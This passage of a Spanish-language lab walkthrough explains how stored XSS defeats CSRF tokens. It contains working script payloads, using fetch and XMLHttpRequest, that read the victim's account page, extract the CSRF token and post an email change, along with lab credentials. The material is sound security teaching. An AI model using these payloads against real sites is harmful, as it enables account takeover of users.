Pero no sustituye el output encoding.

---

## 34. Errores conceptuales comunes

### Error 1: “Si hay CSRF token, no se puede cambiar el email”

Incorrecto.

Si hay XSS, el token puede leerse desde la página.

### Error 2: “El atacante necesita saber la cookie de la víctima”

Incorrecto.

El navegador de la víctima ya tiene la cookie y la envía automáticamente.

### Error 3: “HttpOnly lo arregla”

Incorrecto.

HttpOnly evita leer cookies, pero no evita que el navegador haga acciones autenticadas.

### Error 4: “SameSite lo arregla”

Incorrecto.

El ataque ocurre en el mismo sitio, no cross-site.

### Error 5: “El token CSRF está oculto, por tanto está seguro”

Incorrecto si hay XSS.

Oculto en HTML no significa inaccesible para JavaScript del mismo origen.

---

## 35. Variante con fetch

El payload también podría escribirse usando `fetch`, aunque la solución oficial suele usar `XMLHttpRequest`.

Ejemplo conceptual:

```html
<script>
fetch('/my-account')
  .then(r => r.text())
  .then(html => {
    const token = html.match(/name="csrf" value="(\w+)"/)[1];
    return fetch('/my-account/change-email', {
      method: 'POST',
      headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
      },
      body: 'csrf=' + token + '&email=hacked@mail.com'
    });
  });
</script>
```

Es la misma lógica:

```text
GET /my-account → extraer token → POST /my-account/change-email
```

---

## 36. Variante más robusta de extracción del token

Si el orden de atributos cambiara, esta regex podría fallar:

```javascript
/name="csrf" value="(\w+)"/
```

Por ejemplo, si el HTML fuera:

```html
<input value="abc123" name="csrf" type="hidden">
```

La regex no encontraría nada porque espera `name` antes que `value`.

Una forma más robusta sería parsear el HTML:

```javascript
var parser = new DOMParser();
var doc = parser.parseFromString(this.responseText, 'text/html');
var token = doc.querySelector('input[name="csrf"]').value;
```

Payload conceptual:

```html
<script>
var req = new XMLHttpRequest();
req.onload = function() {
    var parser = new DOMParser();
    var doc = parser.parseFromString(this.responseText, 'text/html');
    var token = doc.querySelector('input[name="csrf"]').value;
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf='+encodeURIComponent(token)+'&email='+encodeURIComponent('hacked@mail.com'));
};
req.open('get','/my-account',true);
req.send();
</script>
```

Esta versión es más larga, pero más resistente a cambios en el HTML.

---

## 37. Conclusión del laboratorio

Este laboratorio demuestra una cadena muy realista:

```text
Stored XSS → lectura de página autenticada → extracción de token CSRF → acción autenticada
```

La lección importante no es solo que se pueda cambiar un email.

La lección es que un XSS dentro de una aplicación autenticada permite actuar como la víctima dentro de esa aplicación.

CSRF tokens protegen contra atacantes externos que no pueden leer respuestas internas.

Pero un XSS ejecutándose en el mismo origen sí puede leer esas respuestas.

Por eso:

```text
CSRF usa tu sesión.
XSS controla tu navegador.
```

Y cuando el atacante controla el navegador mediante XSS, puede leer tokens, enviar formularios y realizar acciones como si fuera el usuario.

---

## 38. Checklist final del lab

- [x] Identificar que el XSS es almacenado en comentarios.
- [x] Iniciar sesión como `wiener:peter`.
- [x] Acceder a `My account`.
- [x] Confirmar que el cambio de email requiere token CSRF.
- [x] Capturar la petición `POST /my-account/change-email`.
- [x] Construir payload XSS.
- [x] Hacer `GET /my-account` desde el navegador de la víctima.
- [x] Extraer token CSRF con regex.
- [x] Enviar `POST /my-account/change-email` con token válido.
- [x] Cambiar el email de la víctima.
- [x] Resolver el laboratorio.
